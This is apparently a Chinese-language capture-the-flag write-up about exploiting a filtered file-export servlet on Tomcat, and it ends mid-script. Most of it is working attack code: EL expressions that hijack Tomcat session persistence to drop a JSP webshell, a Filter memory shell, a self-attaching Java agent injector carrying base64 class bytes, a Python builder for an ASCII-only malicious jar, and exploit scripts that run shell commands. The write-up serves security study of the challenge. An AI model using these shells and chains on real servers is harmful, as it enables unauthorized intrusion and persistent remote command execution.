            fos = new FileOutputStream(dest);
            fos.write(bytes);
        }
        finally {
            if (fos != null) {
                try {
                    fos.close();
                }
                catch (Exception exception) {}
            }
        }
    }
}
```

```java
package org.rwctf.util;

import javax.servlet.http.HttpServletRequest;
import org.rwctf.util.StringUtil;

public class ParamUtil {
    private static final String[] SPECIAL_CHARS = new String[]{"&", "<", "'", ">", "\"", "(", ")"};
    private static final String[] REPLACE_CHARS = new String[]{"&", "<", "&#39;", ">", """, "&#40;", "&#41;"};

    public static String getParameter(HttpServletRequest request, String name) {
        String val = request.getParameter(name);
        if (StringUtil.isEmpty(val)) {
            return "";
        }
        return StringUtil.replace(val.trim(), SPECIAL_CHARS, REPLACE_CHARS);
    }
}
```

```java
package org.rwctf.util;

import java.util.UUID;

public class StringUtil {
    public static boolean isEmpty(String str) {
        return str == null || str.isEmpty();
    }

    public static String randomStr() {
        return UUID.randomUUID().toString().replace("-", "");
    }

    public static String replace(String s, String oldSub, String newSub) {
        if (s != null && oldSub != null && newSub != null) {
            StringBuffer sb = new StringBuffer();
            int length = oldSub.length();
            int x = 0;
            int y = s.indexOf(oldSub);
            while (x <= y) {
                sb.append(s.substring(x, y));
                sb.append(newSub);
                x = y + length;
                y = s.indexOf(oldSub, x);
            }
            sb.append(s.substring(x));
            return sb.toString();
        }
        return null;
    }

    public static String replace(String s, String[] oldSubs, String[] newSubs) {
        if (s != null && oldSubs != null && newSubs != null) {
            if (oldSubs.length != newSubs.length) {
                return s;
            }
            for (int i = 0; i < oldSubs.length; ++i) {
                s = StringUtil.replace(s, oldSubs[i], newSubs[i]);
            }
            return s;
        }
        return null;
    }
}
```

filename 无点整个变 UUID，有点只留最后一个点后面的后缀，dir 只能落在 webapp 内（getCanonicalPath 校验），子目录自动 mkdirs；content 先 trim 再按数组顺序替换，`&` 第一个被处理所以转成实体后不会被二次替换，落盘内容是 `"DIRTY DATA AT THE BEGINNING " + content + " DIRTY DATA AT THE END"`。

`& < ' > " ( )` 全被吃，JSP 的 `<%` `%>` 引号括号没了。角度括号用 EL 绕（web.xml 4.0 默认解析 EL），但括号也被转义，`${Runtime.getRuntime().exec(...)}` 这种带参数的写法全废，只能属性读写，`.` 等价 getter，`=` 等价 setter。脏数据不影响 EL，模板文本原样拼接，`${...}` 前后夹什么都行。

翻译过来其实就是生活中很常见的文件上传场景，文件前缀不可控，目录不可穿越，落地文件有脏数据，有解析黑名单。

### EL 链

通过 SPEL 表达式和 Tomcat 本身机制我们可以轻松写入 jspshell

> - **Session 持久化（StandardManager）**, 当 Tomcat 正常关闭，或者某个 Web 应用（Context）发生重载（Reload）时，为了防止用户的登录状态丢失，Tomcat 会把当前内存里所有活跃的 Session 对象，序列化成二进制数据，保存到磁盘上的一个文件里（默认叫 `SESSIONS.ser`）。等到应用启动后，再从文件读取恢复。
>   
> - **JSP 引擎（Jasper）的容错性** ，JSP 引擎在编译 `.jsp` 文件时，只认 `<% %>` 里面的 Java 代码。至于 `<%` 前面和 `%>` 后面的任何东西（哪怕是乱码、乱七八糟的二进制字节），它统统当作普通的 HTML 文本（Template Text），直接原样输出到浏览器。

利用 param.x 这个姿势轻松绕过黑名单，参数外带，我们就可以尽可能的写入我们想写的东西。

```
${pageContext.servletContext.classLoader.resources.context.manager.pathname=param.a}
${sessionScope[param.b]=param.c}
${pageContext.servletContext.classLoader.resources.context.reloadable=true}
${pageContext.servletContext.classLoader.resources.context.parent.appBase=param.d}
```

第一行修改 StandardManager 的 session 持久化路径，第二行往 session 塞值，第三行开 reloadable，第四行把 appBase 改成 `/`。

如何触发呢？reloadable=true 后往 WEB-INF/lib 写个文件，这里选择写个非法 jar，但非法 jar 会让 context 起不来，ROOT 直接 404，所以第四行要在触发前执行，appBase 改成 `/` 后整个磁盘被当 webapps 扫，`/tmp` 自动部署成 webapp，session 写进 `/tmp/session.jsp` 就能访问

```
<%java.io.InputStream i=Runtime.getRuntime().exec(new String[]{"/bin/sh","-c",request.getParameter("cmd")}).getInputStream();byte[] b=new byte[8192];int n;while((n=i.read(b))>0){out.print(new String(b,0,n));}%>
```

这里测试发现两个坑点

1. 非法 jar 会一直留在 WEB-INF/lib，真实场景下容器一重启 ROOT 就起不来，getshell 之后先删垃圾 jar。
2. 脏数据里面的随机字节万一拼出 `<%` 或 `%>` Jasper 解析就崩，session 内容越短概率越低。



### 内存马

有 RCE 之后往 JVM 里打内存马。最初用的 FightingLzn9 的 AgentMemshell（3.7MB 的 agent jar，分块传输，全量注入还直接把 Tomcat 打挂过），后来回想 JSP 直接打内存马不就行了。

Filter 型最简单，Filter 实现类 base64 内嵌在 JSP 里，defineClass 进 webapp 类加载器，再反射 StandardContext 注册。

Filter 实现类：

```java
import java.io.IOException;
import java.io.InputStream;
import javax.servlet.Filter;
import javax.servlet.FilterChain;
import javax.servlet.FilterConfig;
import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;
import javax.servlet.http.HttpServletRequest;

public class FilterMemshell implements Filter {
    public void init(FilterConfig filterConfig) throws ServletException {
    }

    public void destroy() {
    }

    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        HttpServletRequest req = (HttpServletRequest) request;
        String cmd = req.getParameter("cmd");
        if (cmd != null) {
            try {
                Process p = Runtime.getRuntime().exec(new String[]{"/bin/sh", "-c", cmd});
                InputStream in = p.getInputStream();
                byte[] buf = new byte[8192];
                int n;
                while ((n = in.read(buf)) > 0) response.getOutputStream().write(buf, 0, n);
                response.getOutputStream().flush();
            } catch (Exception ignored) {
            }
            return;
        }
        chain.doFilter(request, response);
    }
}
```

注册 JSP，base64 替换成 `FilterMemshell.class` 的实际内容即可用

```jsp
<%@ page import="java.lang.reflect.*,java.util.*,java.util.jar.*,java.io.*,java.net.*,java.lang.management.*" %>
<%!
static String AB64 = "yv66vgAAADQAOwoACQAcCwAdAB4IAB8KAAcAIAoAIQAiCAAjBwAkCgAHACUHACYKACcAKAcAKQoACwAqBwArAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEACWFnZW50bWFpbgEAOyhMamF2YS9sYW5nL1N0cmluZztMamF2YS9sYW5nL2luc3RydW1lbnQvSW5zdHJ1bWVudGF0aW9uOylWAQANU3RhY2tNYXBUYWJsZQcALAcALQcALgcAJAcAKQEAClNvdXJjZUZpbGUBAApBZ2VudC5qYXZhDAAOAA8HAC4MAC8AMAEAG29yZy5hcGFjaGUuanNwLm1lbXNoZWxsX2pzcAwAMQAyBwAtDAAzADQBAAhpbnN0YWxsMAEAD2phdmEvbGFuZy9DbGFzcwwANQA2AQAQamF2YS9sYW5nL09iamVjdAcANwwAOAA5AQATamF2YS9sYW5nL0V4Y2VwdGlvbgwAOgAPAQAFQWdlbnQBABJbTGphdmEvbGFuZy9DbGFzczsBABBqYXZhL2xhbmcvU3RyaW5nAQAkamF2YS9sYW5nL2luc3RydW1lbnQvSW5zdHJ1bWVudGF0aW9uAQATZ2V0QWxsTG9hZGVkQ2xhc3NlcwEAFCgpW0xqYXZhL2xhbmcvQ2xhc3M7AQAHZ2V0TmFtZQEAFCgpTGphdmEvbGFuZy9TdHJpbmc7AQAGZXF1YWxzAQAVKExqYXZhL2xhbmcvT2JqZWN0OylaAQAJZ2V0TWV0aG9kAQBAKExqYXZhL2xhbmcvU3RyaW5nO1tMamF2YS9sYW5nL0NsYXNzOylMamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kOwEAGGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZAEABmludm9rZQEAOShMamF2YS9sYW5nL09iamVjdDtbTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwEAD3ByaW50U3RhY2tUcmFjZQAhAA0ACQAAAAAAAgABAA4ADwABABAAAAAdAAEAAQAAAAUqtwABsQAAAAEAEQAAAAYAAQAAAAQACQASABMAAQAQAAAAvAADAAcAAABOK7kAAgEATSy+PgM2BBUEHaIAPSwVBDI6BRIDGQW2AAS2AAWZACQZBRIGA70AB7YACAEDvQAJtgAKV6cAEzoGGQa2AAynAAmEBAGn/8OxAAEAJgA6AD0ACwACABEAAAAmAAkAAAAGABkABwAmAAkAOgAMAD0ACgA/AAsARAANAEcABgBNABAAFAAAACgABP4ADQcAFQEB/wAvAAYHABYHABcHABUBAQcAGAABBwAZ+gAJ+AAFAAEAGgAAAAIAGw==";
static String FB64 = "yv66vgAAADQAYAoAEgAtBwAuCAAvCwACADAKADEAMgcAMwgANAgANQoAMQA2CgA3ADgKADkAOgsAOwA8CgA9AD4KAD0APwcAQAsAQQBCBwBDBwBEBwBFAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEABGluaXQBAB8oTGphdmF4L3NlcnZsZXQvRmlsdGVyQ29uZmlnOylWAQAKRXhjZXB0aW9ucwcARgEAB2Rlc3Ryb3kBAAhkb0ZpbHRlcgEAWyhMamF2YXgvc2VydmxldC9TZXJ2bGV0UmVxdWVzdDtMamF2YXgvc2VydmxldC9TZXJ2bGV0UmVzcG9uc2U7TGphdmF4L3NlcnZsZXQvRmlsdGVyQ2hhaW47KVYBAA1TdGFja01hcFRhYmxlBwBDBwBHBwBIBwBJBwAuBwAzBwBKBwBLBwBMBwBABwBNAQAKU291cmNlRmlsZQEAE0ZpbHRlck1lbXNoZWxsLmphdmEMABQAFQEAJWphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlcXVlc3QBAANjbWQMAE4ATwcAUAwAUQBSAQAQamF2YS9sYW5nL1N0cmluZwEABy9iaW4vc2gBAAItYwwAUwBUBwBKDABVAFYHAEsMAFcAWAcASAwAWQBaBwBbDABcAF0MAF4AFQEAE2phdmEvbGFuZy9FeGNlcHRpb24HAEkMAB0AXwEADkZpbHRlck1lbXNoZWxsAQAQamF2YS9sYW5nL09iamVjdAEAFGphdmF4L3NlcnZsZXQvRmlsdGVyAQAeamF2YXgvc2VydmxldC9TZXJ2bGV0RXhjZXB0aW9uAQAcamF2YXgvc2VydmxldC9TZXJ2bGV0UmVxdWVzdAEAHWphdmF4L3NlcnZsZXQvU2VydmxldFJlc3BvbnNlAQAZamF2YXgvc2VydmxldC9GaWx0ZXJDaGFpbgEAEWphdmEvbGFuZy9Qcm9jZXNzAQATamF2YS9pby9JbnB1dFN0cmVhbQEAAltCAQATamF2YS9pby9JT0V4Y2VwdGlvbgEADGdldFBhcmFtZXRlcgEAJihMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9TdHJpbmc7AQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAKChbTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsBAA5nZXRJbnB1dFN0cmVhbQEAFygpTGphdmEvaW8vSW5wdXRTdHJlYW07AQAEcmVhZAEABShbQilJAQAPZ2V0T3V0cHV0U3RyZWFtAQAlKClMamF2YXgvc2VydmxldC9TZXJ2bGV0T3V0cHV0U3RyZWFtOwEAIWphdmF4L3NlcnZsZXQvU2VydmxldE91dHB1dFN0cmVhbQEABXdyaXRlAQAHKFtCSUkpVgEABWZsdXNoAQBAKExqYXZheC9zZXJ2bGV0L1NlcnZsZXRSZXF1ZXN0O0xqYXZheC9zZXJ2bGV0L1NlcnZsZXRSZXNwb25zZTspVgAhABEAEgABABMAAAAEAAEAFAAVAAEAFgAAAB0AAQABAAAABSq3AAGxAAAAAQAXAAAABgABAAAACwABABgAGQACABYAAAAZAAAAAgAAAAGxAAAAAQAXAAAABgABAAAADQAaAAAABAABABsAAQAcABUAAQAWAAAAGQAAAAEAAAABsQAAAAEAFwAAAAYAAQAAABAAAQAdAB4AAgAWAAABEQAFAAoAAAB1K8AAAjoEGQQSA7kABAIAOgUZBcYAWbgABQa9AAZZAxIHU1kEEghTWQUZBVO2AAk6BhkGtgAKOgcRIAC8CDoIGQcZCLYAC1k2CZ4AFCy5AAwBABkIAxUJtgANp//lLLkADAEAtgAOpwAFOgaxLSssuQAQAwCxAAEAFgBmAGkADwACABcAAAA2AA0AAAATAAYAFAARABUAFgAXADEAGAA4ABkAPwAbAF0AHABmAB4AaQAdAGsAHwBsACEAdAAiAB8AAABGAAX/AD8ACQcAIAcAIQcAIgcAIwcAJAcAJQcAJgcAJwcAKAAA/AAdAf8ACwAGBwAgBwAhBwAiBwAjBwAkBwAlAAEHACkBAAAaAAAABgACACoAGwABACsAAAACACw=";
static Object CTX;
static boolean DONE;
public static byte[] b64d(String s) throws Exception {
    try {
        Class<?> c = Class.forName("java.util.Base64");
        Object d = c.getMethod("getDecoder").invoke(null);
        return (byte[]) d.getClass().getMethod("decode", String.class).invoke(d, s);
    } catch (Exception e) {
        Class<?> c = Class.forName("sun.misc.BASE64Decoder");
        Object d = c.newInstance();
        return (byte[]) d.getClass().getMethod("decodeBuffer", String.class).invoke(d, s);
    }
}
public static void install0() throws Exception {
    Object ctx = CTX;
    Object ldr = ctx.getClass().getMethod("getLoader").invoke(ctx);
    ClassLoader cl = (ClassLoader) ldr.getClass().getMethod("getClassLoader").invoke(ldr);
    Field fcF = ctx.getClass().getDeclaredField("filterConfigs");
    fcF.setAccessible(true);
    Map<String, Object> fcs = (Map) fcF.get(ctx);
    if (fcs.containsKey("memshell")) return;
    byte[] cb = b64d(FB64);
    Class<?> fc = null;
    try {
        fc = Class.forName("FilterMemshell", false, cl);
    } catch (ClassNotFoundException e) {
        Method define = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
        define.setAccessible(true);
        fc = (Class<?>) define.invoke(cl, cb, 0, cb.length);
    }
    Class<?> fdC = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");
    Object fd = fdC.newInstance();
    fdC.getMethod("setFilterName", String.class).invoke(fd, "memshell");
    fdC.getMethod("setFilterClass", String.class).invoke(fd, fc.getName());
    ctx.getClass().getMethod("addFilterDef", fdC).invoke(ctx, fd);
    Field fmF = ctx.getClass().getDeclaredField("filterMaps");
    fmF.setAccessible(true);
    Object cfm = fmF.get(ctx);
    Method arrM = cfm.getClass().getMethod("asArray");
    arrM.setAccessible(true);
    boolean mapped = false;
    for (Object m : (Object[]) arrM.invoke(cfm)) {
        String n = (String) m.getClass().getMethod("getFilterName").invoke(m);
        if ("memshell".equals(n)) { mapped = true; break; }
    }
    if (!mapped) {
        Class<?> fmC = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
        Object fm = fmC.newInstance();
        fmC.getMethod("setFilterName", String.class).invoke(fm, "memshell");
        fmC.getMethod("addURLPattern", String.class).invoke(fm, "/*");
        Method addM = cfm.getClass().getMethod("add", fmC);
        addM.setAccessible(true);
        addM.invoke(cfm, fm);
    }
    Class<?> fciC = Class.forName("org.apache.catalina.core.ApplicationFilterConfig");
    Constructor<?> fciCtor = fciC.getDeclaredConstructor(Class.forName("org.apache.catalina.Context"), fdC);
    fciCtor.setAccessible(true);
    fcs.put("memshell", fciCtor.newInstance(ctx, fd));
}
%>
<%
ServletContext sc = request.getServletContext();
Field f1 = sc.getClass().getDeclaredField("context");
f1.setAccessible(true);
Object ac = f1.get(sc);
Field f2 = ac.getClass().getDeclaredField("context");
f2.setAccessible(true);
Object ctx = f2.get(ac);
CTX = ctx;
if (DONE) {
    Field fcF2 = ctx.getClass().getDeclaredField("filterConfigs");
    fcF2.setAccessible(true);
    out.print("already done, filter=" + ((Map) fcF2.get(ctx)).containsKey("memshell"));
    return;
}
DONE = true;
byte[] cls = b64d(AB64);
Manifest mf = new Manifest();
Attributes a = mf.getMainAttributes();
a.putValue("Manifest-Version", "1.0");
a.putValue("Agent-Class", "Agent");
a.putValue("Premain-Class", "Agent");
a.putValue("Can-Redefine-Classes", "true");
a.putValue("Can-Retransform-Classes", "true");
JarOutputStream jos = new JarOutputStream(new FileOutputStream("/tmp/mi.jar"), mf);
jos.putNextEntry(new JarEntry("Agent.class"));
jos.write(cls);
jos.closeEntry();
jos.close();
String pid = ManagementFactory.getRuntimeMXBean().getName().split("@")[0];
URLClassLoader tcl = new URLClassLoader(new URL[]{ new File("/opt/jdk/lib/tools.jar").toURI().toURL() }, ClassLoader.getSystemClassLoader());
Thread.currentThread().setContextClassLoader(tcl);
Class<?> vmCls = tcl.loadClass("com.sun.tools.attach.VirtualMachine");
Object vm = vmCls.getMethod("attach", String.class).invoke(null, pid);
vm.getClass().getMethod("loadAgent", String.class).invoke(vm, "/tmp/mi.jar");
vm.getClass().getMethod("detach").invoke(vm);
Field fcF = ctx.getClass().getDeclaredField("filterConfigs");
fcF.setAccessible(true);
Map<String, Object> fcs = (Map) fcF.get(ctx);
out.print("agent loaded, filter=" + fcs.containsKey("memshell"));
%>
```

Agent 型也走通了，JSP 自 attach，tools.jar 反射加载 `VirtualMachine`，`JarOutputStream` 在内存里拼一个 mini agent jar（Agent 类只有 1KB），loadAgent 后 agentmain 反射调 JSP 类的静态方法完成注册。

Agent 类

```java
import java.lang.instrument.Instrumentation;
import java.lang.reflect.Method;

public class Agent {
    public static void agentmain(String args, Instrumentation inst) {
        for (Class<?> c : inst.getAllLoadedClasses()) {
            if ("org.apache.jsp.memshell_005fagent_jsp".equals(c.getName())) {
                try {
                    c.getMethod("install0").invoke(null);
                } catch (Exception e) {
                    e.printStackTrace();
                }
                break;
            }
        }
    }
}
```

完整 JSP，AB64/FB64 替换成对应 class 的 base64 可用

```jsp
<%@ page import="java.lang.reflect.*,java.util.*,java.util.jar.*,java.io.*,java.net.*,java.lang.management.*" %>
<%!
static String AB64 = "<base64 of Agent.class>";
static String FB64 = "<base64 of FilterMemshell.class>";
static Object CTX;
static boolean DONE;
public static byte[] b64d(String s) throws Exception {
    try {
        Class<?> c = Class.forName("java.util.Base64");
        Object d = c.getMethod("getDecoder").invoke(null);
        return (byte[]) d.getClass().getMethod("decode", String.class).invoke(d, s);
    } catch (Exception e) {
        Class<?> c = Class.forName("sun.misc.BASE64Decoder");
        Object d = c.newInstance();
        return (byte[]) d.getClass().getMethod("decodeBuffer", String.class).invoke(d, s);
    }
}
public static void install0() throws Exception {
    Object ctx = CTX;
    Object ldr = ctx.getClass().getMethod("getLoader").invoke(ctx);
    ClassLoader cl = (ClassLoader) ldr.getClass().getMethod("getClassLoader").invoke(ldr);
    Field fcF = ctx.getClass().getDeclaredField("filterConfigs");
    fcF.setAccessible(true);
    Map<String, Object> fcs = (Map) fcF.get(ctx);
    if (fcs.containsKey("memshell")) return;
    byte[] cb = b64d(FB64);
    Class<?> fc = null;
    try {
        fc = Class.forName("FilterMemshell", false, cl);
    } catch (ClassNotFoundException e) {
        Method define = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
        define.setAccessible(true);
        fc = (Class<?>) define.invoke(cl, cb, 0, cb.length);
    }
    Class<?> fdC = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");
    Object fd = fdC.newInstance();
    fdC.getMethod("setFilterName", String.class).invoke(fd, "memshell");
    fdC.getMethod("setFilterClass", String.class).invoke(fd, fc.getName());
    ctx.getClass().getMethod("addFilterDef", fdC).invoke(ctx, fd);
    Field fmF = ctx.getClass().getDeclaredField("filterMaps");
    fmF.setAccessible(true);
    Object cfm = fmF.get(ctx);
    Method arrM = cfm.getClass().getMethod("asArray");
    arrM.setAccessible(true);
    boolean mapped = false;
    for (Object m : (Object[]) arrM.invoke(cfm)) {
        String n = (String) m.getClass().getMethod("getFilterName").invoke(m);
        if ("memshell".equals(n)) { mapped = true; break; }
    }
    if (!mapped) {
        Class<?> fmC = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
        Object fm = fmC.newInstance();
        fmC.getMethod("setFilterName", String.class).invoke(fm, "memshell");
        fmC.getMethod("addURLPattern", String.class).invoke(fm, "/*");
        Method addM = cfm.getClass().getMethod("add", fmC);
        addM.setAccessible(true);
        addM.invoke(cfm, fm);
    }
    Class<?> fciC = Class.forName("org.apache.catalina.core.ApplicationFilterConfig");
    Constructor<?> fciCtor = fciC.getDeclaredConstructor(Class.forName("org.apache.catalina.Context"), fdC);
    fciCtor.setAccessible(true);
    fcs.put("memshell", fciCtor.newInstance(ctx, fd));
}
%>
<%
ServletContext sc = request.getServletContext();
Field f1 = sc.getClass().getDeclaredField("context");
f1.setAccessible(true);
Object ac = f1.get(sc);
Field f2 = ac.getClass().getDeclaredField("context");
f2.setAccessible(true);
Object ctx = f2.get(ac);
CTX = ctx;
if (DONE) {
    Field fcF2 = ctx.getClass().getDeclaredField("filterConfigs");
    fcF2.setAccessible(true);
    out.print("already done, filter=" + ((Map) fcF2.get(ctx)).containsKey("memshell"));
    return;
}
DONE = true;
byte[] cls = b64d(AB64);
Manifest mf = new Manifest();
Attributes a = mf.getMainAttributes();
a.putValue("Manifest-Version", "1.0");
a.putValue("Agent-Class", "Agent");
a.putValue("Premain-Class", "Agent");
a.putValue("Can-Redefine-Classes", "true");
a.putValue("Can-Retransform-Classes", "true");
JarOutputStream jos = new JarOutputStream(new FileOutputStream("/tmp/mi.jar"), mf);
jos.putNextEntry(new JarEntry("Agent.class"));
jos.write(cls);
jos.closeEntry();
jos.close();
String pid = ManagementFactory.getRuntimeMXBean().getName().split("@")[0];
URLClassLoader tcl = new URLClassLoader(new URL[]{ new File("/opt/jdk/lib/tools.jar").toURI().toURL() }, ClassLoader.getSystemClassLoader());
Thread.currentThread().setContextClassLoader(tcl);
Class<?> vmCls = tcl.loadClass("com.sun.tools.attach.VirtualMachine");
Object vm = vmCls.getMethod("attach", String.class).invoke(null, pid);
vm.getClass().getMethod("loadAgent", String.class).invoke(vm, "/tmp/mi.jar");
vm.getClass().getMethod("detach").invoke(vm);
Field fcF = ctx.getClass().getDeclaredField("filterConfigs");
fcF.setAccessible(true);
Map<String, Object> fcs = (Map) fcF.get(ctx);
out.print("agent loaded, filter=" + fcs.containsKey("memshell"));
%>
```

因为 Tomcat 版本吃的亏：

1. `getServletContext()` 拿到的是 ApplicationContextFacade，要反射 `context` 字段剥两层才是 StandardContext。
2. Tomcat 9.0.56 的 `filterMaps` 字段类型是内部类 `ContextFilterMaps`，只有 `asArray/add/addBefore/remove` 四个方法，幂等检查用 `asArray()` 遍历、注册用 `add()`。
3. 直接取 JSP 类自己的 loader 也不行，Jasper 的类挂在 `JasperLoader` 上，和 ApplicationFilterConfig 用的 loader 不是同一个。

Agent 测试发现的坑点：

1. 重复访问会因 libattach.so 已加载报 500（URLClassLoader 重复加载 tools.jar），JSP 里加个静态标志跳过。
2. 纯 transformer 型（直接改 `ApplicationFilterChain.doFilter` 字节码）也试过，agentmain 注册 transformer + retransformClasses，注入器手写 class 文件解析（常量池追加 Methodref、插 9 字节模板、修异常表/局部变量表/StackMapTable），javap 验证帧表全对，但 JDK8 的 split verifier 对手工帧表极其挑剔，bad offset 反复出现，最终放弃。
3. agentmain 线程的 TCCL 是 system classloader，defineClass 会挂 `javax.servlet.Filter` 找不到，必须从 StandardContext 的 Loader 拿 WebappClassLoader（`ctx.getLoader().getClassLoader()`）。



### 无 EL 路线

直接写合法 jar 进 WEB-INF/lib 再触发 reload，只不过构造比较麻烦。

content 以 UTF-8 落盘，每个字节必须小于 0x80（不然多字节，zip 长度偏移字段全错位）、不在 `&<'>"()` 七个转义里、首尾不能是小于等于 0x20（参数会 trim）。

zip 从尾部 EOCD 解析、头部允许垃圾，脏数据前缀留文件头，CD 和 EOCD 的偏移字段都加 27；后缀 ` DIRTY DATA AT THE END` 当 EOCD 注释——注释长度字段设 21，服务端拼的后缀正好是注释正文，`len - i - ENDHDR - commentLen == 0` 完美通过。但 content 末尾是注释长度的高字节 0x00 会被 trim 掉，EOCD 后要垫几个大于 0x20 的字符（C0NY1），注释长度写成占位加 21。

压缩数据用 ascii-zip，它构造 deflate 动态 Huffman 码表让输出字节全在 `[A-Za-z0-9]`。crc、压缩长度、原始长度、CD 偏移这些算出来的字段只能爆破，JSP 里填 `<!-- AAAAA... -->` 当 padding，每轮重算 CRC 重新压缩，检查 4 个 4 字节字段。

1. ascii-zip 输出比输入大（字母数字流开销约 1.5 倍），精简 JSP 压缩后 329 字节，CD 偏移 385 = 0x181 首字节超限，改 padding 没用因为偏移跟着压缩长度单调走，两步法先纯算 crc32 筛候选再压缩，padding 401 个 A 命中。
2. 手写 CD 条目时 external attrs 是 4 字节字段，按 2 字节写整个结构错位，Tomcat 报 invalid CEN header，context 起不来。

jar 条目用 `META-INF/resources/shell.jsp`，WebResourceRoot 映射成 webapp 根资源，reload 后直接访问。

触发不用 EL，因为默认 WatchedResource 含 `WEB-INF/tomcat-web.xml`，autoDeploy 默认开，export 建个同名目录就触发 reload。合法 jar 不崩应用，这是比 EL 链强的地方。

```python
#!/usr/bin/env python3
import contextlib
import io
import struct
import sys
import time
import zlib

import requests
from compress_lib import ASCIICompressor

PREFIX = b"DIRTY DATA AT THE BEGINNING "
SUFFIX = b" DIRTY DATA AT THE END"
PAD_TAIL = b"C0NY1"
JSP_BODY = b'<%out.print(new java.util.Scanner(Runtime.getRuntime().exec(new String[]{"/bin/sh","-c",request.getParameter("c")}).getInputStream()).useDelimiter("\\\\A").next());%>\n'
ALLOW = set(range(128)) - {38, 60, 39, 62, 34, 40, 41}


def fld_ok(n):
    return all((n >> s) & 0xff in ALLOW for s in (0, 8, 16, 24))


def find_content(zip_name):
    comp = ASCIICompressor(bytearray(ALLOW))
    cands = []
    for pad in range(300, 3000):
        raw = b"<!-- " + b"A" * pad + b" -->\n" + JSP_BODY
        if fld_ok(zlib.crc32(raw)) and fld_ok(len(raw)):
            cands.append(raw)
    for raw in cands:
        with contextlib.redirect_stdout(io.StringIO()):
            data = comp.compress(bytearray(raw))[0]
        if fld_ok(len(data)) and fld_ok(len(data) + len(zip_name) + 0x1e + 27):
            return raw, data
    raise SystemExit("no fit")


def build_jar(raw, data, zip_name):
    crc = zlib.crc32(raw) % pow(2, 32)
    lfh = (b"PK\x03\x04" + struct.pack("<HHHHH", 0x000A, 0x0008, 0x0008, 0, 0)
           + struct.pack("<LLL", 0, 0, 0)
           + struct.pack("<HH", len(zip_name), 0) + zip_name)
    cd = (b"PK\x01\x02" + struct.pack("<HHHHHH", 0x000A, 0x000A, 0x0008, 0x0008, 0, 0)
          + struct.pack("<LLL", crc, len(data), len(raw))
          + struct.pack("<HHHHH", len(zip_name), 0, 0, 0, 0)
          + struct.pack("<LL", 0, 27) + zip_name)
    eocd = (b"PK\x05\x06" + struct.pack("<HHHH", 0, 0, 1, 1)
            + struct.pack("<LL", len(cd), len(data) + len(zip_name) + 0x1e + 27)
            + struct.pack("<H", len(PAD_TAIL) + len(SUFFIX)))
    return lfh + data + cd + eocd + PAD_TAIL


def attack(target, cmd, name="shell.jsp"):
    zip_name = f"META-INF/resources/{name}".encode()
    raw, data = find_content(zip_name)
    content = build_jar(raw, data, zip_name)
    assert all(b < 0x80 and b not in {38, 60, 39, 62, 34, 40, 41} for b in content), "content unsafe"
    r = requests.post(f"{target}/export", data={"dir": "./WEB-INF/lib/", "filename": "a.jar", "content": content.decode("latin-1")})
    assert r.status_code == 200, r.text
    requests.post(f"{target}/export", data={"dir": "./WEB-INF/tomcat-web.xml/", "filename": "x", "content": "x"})
    time.sleep(12)
    r = requests.get(f"{target}/{name}", params={"c": cmd}, timeout=15)
    out = r.text.strip().split("-->")[-1].strip()
    return out.rstrip("\x00")


if __name__ == "__main__":
    t = sys.argv[1].rstrip("/")
    c = sys.argv[2] if len(sys.argv) > 2 else "id"
    n = sys.argv[3] if len(sys.argv) > 3 else "shell.jsp"
    print(attack(t, c, n))
```

`compress_lib.py` 是从 Arusekk 的 ascii-zip 截的压缩器类


### exp

```python
#!/usr/bin/env python3
import sys
import time

import requests

TARGET = sys.argv[1].rstrip("/")

EL = """${pageContext.servletContext.classLoader.resources.context.manager.pathname=param.a}
${sessionScope[param.b]=param.c}
${pageContext.servletContext.classLoader.resources.context.reloadable=true}
${pageContext.servletContext.classLoader.resources.context.parent.appBase=param.d}"""

JSP = '<%java.io.InputStream i=Runtime.getRuntime().exec(new String[]{"/bin/sh","-c",request.getParameter("cmd")}).getInputStream();byte[] b=new byte[8192];int n;while((n=i.read(b))>0){out.print(new String(b,0,n));}%>'

r = requests.post(f"{TARGET}/export", data={"dir": "", "filename": "a.jsp", "content": EL})
el = f"{TARGET}/export/{r.text.strip().split('/')[-1]}"
requests.post(el, data={"a": "/tmp/session.jsp", "b": "k", "c": JSP, "d": "/"})
requests.post(f"{TARGET}/export", data={"dir": "./WEB-INF/lib/", "filename": "a.jar", "content": "x"})
time.sleep(12)
print(f"{TARGET}/tmp/session.jsp")

"""
Usage:
  python3 el_webshell.py http://127.0.0.1:8080

Demo:
  curl "http://127.0.0.1:8080/tmp/session.jsp?cmd=id"
  curl "http://127.0.0.1:8080/tmp/session.jsp?cmd=/readflag"
"""
```

```python
#!/usr/bin/env python3
import base64
import subprocess
import sys
import time

import requests

TARGET = sys.argv[1].rstrip("/")

EL = """${pageContext.servletContext.classLoader.resources.context.manager.pathname=param.a}
${sessionScope[param.b]=param.c}
${pageContext.servletContext.classLoader.resources.context.reloadable=true}
${pageContext.servletContext.classLoader.resources.context.parent.appBase=param.d}"""

JSP = '<%java.io.InputStream i=Runtime.getRuntime().exec(new String[]{"/bin/sh","-c",request.getParameter("cmd")}).getInputStream();byte[] b=new byte[8192];int n;while((n=i.read(b))>0){out.print(new String(b,0,n));}%>'


def get_shell():
    r = requests.post(f"{TARGET}/export", data={"dir": "", "filename": "a.jsp", "content": EL})
    assert r.status_code == 200 and "/" in r.text, "export failed, restart environment first"
    el = f"{TARGET}/export/{r.text.strip().split('/')[-1]}"
